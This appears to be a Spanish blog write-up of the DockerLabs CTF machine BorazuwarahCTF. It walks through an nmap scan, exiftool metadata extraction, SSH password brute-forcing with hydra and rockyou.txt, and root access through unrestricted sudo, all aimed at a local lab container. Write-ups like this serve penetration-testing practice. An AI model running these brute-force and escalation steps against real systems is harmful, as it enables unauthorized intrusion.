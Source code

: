```yaml
---
layout: post
title: "BorazuwarahCTF"
date: 2024-08-15 17:25:23
category: dockerlabs
vm: dockerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> BorazuwarahCTF </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="reeasy">Muy Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>


![img](/notas/public/img/dockerlabs/borazuwarahctf/host.png){:.margin}

**1\.** Aqui tenemos los puertos escaneados de la maquina.

`sudo nmap -p- -sS -T5 --min-rate=5000 -sCV -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/borazuwarahctf/nmap.png){:.margin}

**2\.** En la web tenemos una imagen.

`http://172.17.0.2`

![img](/notas/public/img/dockerlabs/borazuwarahctf/80.png){:.margin}

**3\.** Descargo la imagen de la web para analizar sus metadatos. 

`wget http://172.17.0.2/imagen.jpeg -q`

`exiftool imagen.jpeg`

![img](/notas/public/img/dockerlabs/borazuwarahctf/exiftool.png){:.margin}

**4\.** Toca hacer fuerza bruta a la contraseña de borazuwarah por ssh.

`hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`

![img](/notas/public/img/dockerlabs/borazuwarahctf/hydra.png){:.margin}

**5\.** Me conecto por ssh con el usuario borazuwarah.

`ssh borazuwarah@172.17.0.2`

![img](/notas/public/img/dockerlabs/borazuwarahctf/ssh.png){:.margin}

**6\.** Escalando privilegios.

_6.1- Reviso los permisos sudo del usuario, tengo todos los permisos_

`sudo -l`

![img](/notas/public/img/dockerlabs/borazuwarahctf/sudol.png){:.margin}

_6.2- Ejecutamos la bash como sudo_

`sudo /bin/bash`

![img](/notas/public/img/dockerlabs/borazuwarahctf/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>